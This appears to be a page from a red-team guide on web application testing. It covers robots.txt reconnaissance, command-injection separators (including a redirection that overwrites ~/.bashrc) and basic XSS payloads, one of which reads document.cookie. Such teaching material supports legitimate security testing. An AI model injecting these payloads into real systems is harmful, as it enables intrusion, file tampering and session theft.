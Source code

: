 ## Information Gathering

*--> [1_Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)*

1. Robot.txt
   - www.example.com/robots.txt
   - allow/disallow search of web crawlers

## Exploitation

1. Command Injection into available input masks
   - Sequential: /bin/exploit ; malicious_code
   - Pipeline: /bin/exploit | malicious_code
         - use output of exploit as input for mal_code
   - Substitution: /bin/exploit \`malicious_code\`
         - output of mal_code as arg to exploit
   - Substitution: /bin/exploit $(malicious_code)
         - output of mal_code as arg to exploit
   - Redirection: /bin/exploit > ~/.bashrc
         - overwrite bashrc

2. XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

3. Manual analysis of URL parameter 
